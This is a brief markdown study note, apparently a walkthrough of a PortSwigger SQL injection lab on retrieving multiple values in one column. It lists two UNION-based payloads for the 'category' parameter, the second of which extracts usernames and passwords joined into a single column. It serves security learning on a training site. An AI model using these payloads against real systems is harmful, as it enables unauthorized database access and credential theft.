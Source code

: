 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/ps-wsa-labs/sq-li/retrieving-multiple-values-in-a-single-column/"}
---
```







- Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the `category` parameter:

```Plain
'+UNION+SELECT+NULL,'abc'--
```

- Retrieve the contents of the `users` table:
    - `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`